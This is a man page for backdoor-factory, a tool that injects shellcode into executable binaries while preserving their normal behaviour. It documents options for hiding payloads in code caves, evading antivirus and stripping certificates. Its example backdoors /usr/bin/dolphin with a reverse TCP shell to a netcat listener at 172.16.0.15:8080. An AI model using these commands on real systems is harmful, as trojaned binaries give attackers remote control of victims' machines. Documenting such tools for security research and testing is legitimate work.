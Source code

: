 % BACKDOOR-FACTORY(1) Backdoor-Factory Man Page
% Philippe Thierry
% May 2017
# NAME
backdoor-factory - 

# SYNOPSIS
**backdoor-factory [options]**


# DESCRIPTION
**backdoor-factory** patch executable binaries with user desired
shellcode and continue normal execution of the prepatched state.

This tool is for security professionals and researchers only.

# OPTIONS:
**-h**, **--help**
  show this help message and exit
**-f FILE**, **--file=FILE**
  File to backdoor
**-s SHELL**, **--shell=SHELL**
  Payloads that are available for use. Use 'show' to see
  payloads.
**-H HOST**, **--hostip=HOST**
  IP of the C2 for reverse connections.
**-P PORT**, **--port=PORT**
  The port to either connect back to for reverse shells
  or to listen on for bind shells
**-J**, **--cave_jumping**
  Select this options if you want to use code cave
  jumping to further hide your shellcode in the binary.
**-a**, **--add_new_section**
  Mandating that a new section be added to the exe
  (better success) but less av avoidance
**-U SUPPLIED_SHELLCODE**, **--user_shellcode=SUPPLIED_SHELLCODE**
  User supplied shellcode, make sure that it matches the
  architecture that you are targeting.
**-c**, **--cave**
  The cave flag will find code caves that can be used
  for stashing shellcode. This will print to all the
  code caves of a specific size.The -l flag can be use
  with this setting.
**-l SHELL_LEN**, **--shell_length=SHELL_LEN**
  For use with -c to help find code caves of different
  sizes
**-o OUTPUT**, **--output-file=OUTPUT**
  The backdoor output file
**-n NSECTION**, **--section=NSECTION**
  New section name must be less than seven characters
**-d DIR**, **--directory=DIR**
  This is the location of the files that you want to
  backdoor. You can make a directory of file backdooring
  faster by forcing the attaching of a codecave to the
  exe by using the -a setting.
**-w**, **--change_access**
  This flag changes the section that houses the codecave
  to RWE. Sometimes this is necessary. Enabled by
  default. If disabled, the backdoor may fail.
**-i**, **--injector**
  This command turns the backdoor factory in a hunt and
  shellcode inject type of mechanism. Edit the target
  settings in the injector module.
**-u SUFFIX**, **--suffix=SUFFIX**
  For use with injector, places a suffix on the original
  file for easy recovery
**-D**, **--delete_original**
  For use with injector module.  This command deletes
  the original file.  Not for use in production systems.
  (Author not responsible for stupid uses.)
**-O DISK_OFFSET**, **--disk_offset=DISK_OFFSET**
  Starting point on disk offset, in bytes. Some authors
  want to obfuscate their on disk offset to avoid
  reverse engineering, if you find one of those files
  use this flag, after you find the offset.
**-S**, **--support_check**
  To determine if the file is supported by BDF prior to
  backdooring the file. For use by itself or with
  verbose. This check happens automatically if the
  backdooring is attempted.
**-M**, **--cave-miner**
  Future use, to help determine smallest shellcode
  possible in a PE file
**-q**, **--no_banner**
  Kills the banner.
**-v**, **--verbose**
  For debug information output.
**-T IMAGE_TYPE**, **--image-type=IMAGE_TYPE**
  ALL, x86, or x64 type binaries only. Default=ALL
**-Z**, **--zero_cert**
  Allows for the overwriting of the pointer to the PE
  certificate table effectively removing the certificate
  from the binary for all intents and purposes.
**-R**, **--runas_admin**
  EXPERIMENTAL Checks the PE binaries for
  'requestedExecutionLevel level="highestAvailable"'. If
  this string is included in the binary, it must run as
  system/admin. If not in Support Check mode it will
  attmept to patch highestAvailable into the manifest if
  requestedExecutionLevel entry exists.
**-L**, **--patch_dll**
  Use this setting if you DON'T want to patch DLLs.
  Patches by default.
**-F FAT_PRIORITY**, **--fat_priority=FAT_PRIORITY**
  For MACH-O format. If fat file, focus on which arch to
  patch. Default is x64. To force x86 use -F x86, to
  force both archs use -F ALL.
**-B BEACON**, **--beacon=BEACON**
  For payloads that have the ability to beacon out, set
  the time in secs
**-m PATCH_METHOD**, **--patch-method=PATCH_METHOD**
  Patching methods for PE files, 'manual','automatic',
  replace and onionduke
**-b SUPPLIED_BINARY**, **--user_malware=SUPPLIED_BINARY**
  For onionduke. Provide your desired binary.
**-X**, **--xp_mode**
  Default: DO NOT support for XP legacy machines, use -X
  to support XP. By default the binary will crash on XP
  machines (e.g. sandboxes)
**-A**, **--idt_in_cave**
  EXPERIMENTAL By default a new Import Directory Table
  is created in a new section, by calling this flag it
  will be put in a code cave.  This can cause bianry
  failure is some cases. Test on target binaries first.
**-C**, **--code_sign**
  For those with codesigning certs wishing to sign PE
  binaries only. Name your signing key and private key
  signingcert.cer and signingPrivateKey.pem repectively
  in the certs directory it's up to you to obtain
  signing certs.
**-p**, **--preprocess**
  To execute preprocessing scripts in the preprocess
  directory

# EXAMPLES

Example of cavecoding an ELF binary, by integrating a remote shell access
through a remote TCP listener (e.g. netcat):

backdoor-factory -f /usr/bin/dolphin -H 172.16.0.15 -P 8080 -s reverse_shell_tcp

On the host behind the IP 172.16.0.15, start netcat in listen mode:

$ netcat -l 172.16.0.15 8080

On the target, start the backdoored binary:
./backdoored/dolphin

Now, on the host 172.16.0.15, just use your shell.


# HISTORY
May 2017, Originally compiled by Philippe Thierry (phil at reseau-libre dot
com)
